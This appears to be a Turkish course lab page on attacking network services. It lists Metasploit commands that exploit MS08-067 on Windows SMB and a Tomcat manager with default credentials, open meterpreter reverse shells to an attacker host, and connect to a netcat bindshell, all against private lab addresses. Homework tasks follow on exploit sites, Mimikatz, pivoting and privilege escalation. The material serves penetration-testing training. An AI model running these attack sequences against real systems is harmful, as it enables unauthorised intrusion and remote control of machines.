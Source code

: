 # Servis Saldırıları

## Komutlar

```
msfconsole
db_rebuild_cache
search ms08
use exploit/windows/smb/ms08_067_netapi
show options
set rhost 10.0.3.6
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.3.5
exploit
ls
pwd
getuid
screenshot
search tomcat
use auxiliary/scanner/http/tomcat_mgr_login
show options
set rhost 10.0.3.7
set rport 8180
use exploit/multi/http/tomcat_mgr_deploy
show options
set rhost 10.0.3.7
set rport 8180
set username tomcat
set password tomcat
set payload java/meterpreter/reverse_tcp
set lhost 10.0.3.5
nc 10.0.3.7 1524
```

## Ödevler

- Exploit-db, 0day.today benzeri siteleri araştırınız ve düzenli olarak takip ediniz.
- Açıklıkların paylaşıldığı diğer plaformları araştırınız.
- Nessus veya openvas aracını çalıştırınız ve lab makineleri üzerinde test ediniz.
- Mimikatz aracını araştırınız.
- Metasploit komutlarını inceleyiniz. Pivot işleminin nasıl yapıldığını araştırınız.
- Metasploit aracı dışında exploit sitelerinden seçtiğiniz bir exploiti indirip çalıştırınız.
- Reverse ile bind shell almanın farklarını öğreniniz.
- Sunucudan shell almanın farklı yollarını araştırınız.
- Linux sunuculardan alınabilecek reverse shell yollarını araştırınız.
- Linux sunuculara erişim sağlandıktan sonra yetki yükseltmenin nasıl yapılacağını araştırınız.
- Metasploitable dağıtımından normal yetkili shell aldıktan sonra root yetkisine çıkaracak şekilde exploit etmeyi deneyiniz.
